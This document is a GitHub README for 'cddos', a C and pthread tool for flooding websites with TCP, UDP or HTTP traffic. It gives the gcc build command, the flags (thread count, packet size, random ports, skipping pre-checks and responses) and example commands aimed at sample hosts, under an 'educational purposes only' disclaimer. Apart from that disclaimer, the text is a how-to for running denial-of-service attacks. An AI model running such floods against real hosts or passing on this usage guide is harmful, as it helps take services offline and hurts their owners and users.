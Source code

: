 # cddos
<b>cddos</b>--program for dosing websites writte on plain c and using pthread library</br>
<b>THIS PROGRAM PROVIDED FOR ONLY EDUCATIONAL PURPOSES</b><br>
<b>Compilation</b><br>
```$ gcc main.c ddos.c socket.c message.c util.c -lpthread -o ddos ```
<br>
Simple cddos utility<br>
<b>Usage:</b><br>
<p>

./ddos (HOST) (PORT) [options...]<br>
HOST -- host to ddos<br>
PORT -- port to connect,if set to 0 will try random ports<br>

</p>
<b>Options:</b><br>
<p>
-r -- generate random packet<br>
-u -- Use UDP<br>
-p -- Use TCP<br>
-t <THREAD COUNT> -- describes thread count,by default set to 5<br>
-s <PACKET SIZE> -- set packet size<br>
--http -- Make http request<br>
--no-warnings -- ignore all warnings<br>
--no-wait -- Do not wait server to respond<br>
--no-check -- Do not check server before starting ddos<br>
</p><br>
  
<b>Example usage:</b><br>
``` $ ./ddos some.boring.long.domain.net 80 -t 70 --no-wait --http ```
  <br>
  This will send packets  some.boring.long.domain.net:80 without waiting for response usin http syntax in 70 threads.<br>
``` $./ddos example.com 88 --no-check --no-wait -u ```
  <br>
  With this options program will send  packets to example.com:88 without pre-start host check and without waiting for response.Program will use 5 threads. Program will use UDP protocol.
